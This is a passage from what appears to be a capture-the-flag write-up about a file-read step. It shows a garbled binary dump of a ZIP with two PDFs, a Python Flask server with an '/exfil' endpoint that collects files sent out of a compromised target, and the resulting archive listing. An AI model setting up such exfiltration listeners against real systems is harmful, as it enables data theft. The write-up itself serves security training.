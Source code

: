 ```
=R*ѭ~nnL                                                                       

8:40mT8De̗,Ya$0jE*zG                                                            
                   $1{;hu>Wkt/̝_8||yA晸QxK,sSP?svg\yQN:,8@BO)qEhBokM0fV+@PbZaKkq]so@70z"\B/#P    ]gC*K   0/MsԮZ@':nk2>k-B                                                                                                                                                                                                     
z+2MtEՊ4%?0ݷg5Bily                                                             
LawzsB,֨wf3()^m@('LS7                                                           
         (Y0n3}\N?V#|P \4!dB                                                   
                            bx|.GPWG|Pp>V?u$ Alice's Adventures in Wonderland.pdfPp>VWG| Through the Looking-Glass.pdfPK 

```

It looks a bit weird here because some of the binary bytes end up messing up some of the ASCII ones, but collecting it again and saving it to a file shows that it is as I’ll show in the next section.

### File Read

#### Webserver

If I’m going to be trying to collect files, it seems time to make a better webserver than just catching them with `nc`.

```

from pathlib import Path
from flask import Flask, request

app = Flask(__name__)

@app.route('/exfil', methods=["POST"])
def exfil():
    print("Got a file")
    data = request.get_data()
    output = Path(f'exfil/exfil.zip')
    output.write_bytes(data)
    return ""

if __name__ == "__main__":
    app.run(debug=True, host="0.0.0.0", port=80)

```

This is a simple Python Flask server that will save any file sent to `/exfil` to a file in the `exfil` directory as a Zip.

Now I can run the same get for two PDFs above and get a ZIP:

```

oxdf@hacky$ file exfil/exfil.zip 
exfil/exfil.zip: Zip archive data, at least v2.0 to extract, compression method=deflate
oxdf@hacky$ unzip -l exfil/exfil.zip 
Archive:  exfil/exfil.zip
  Length      Date    Time    Name
---------  ---------- -----   ----
     1006  2023-01-30 19:51   Alice's Adventures in Wonderland.pdf
     1001  2023-01-30 19:51   Through the Looking-Glass.pdf
---------                     -------
     2007                     2 files

```
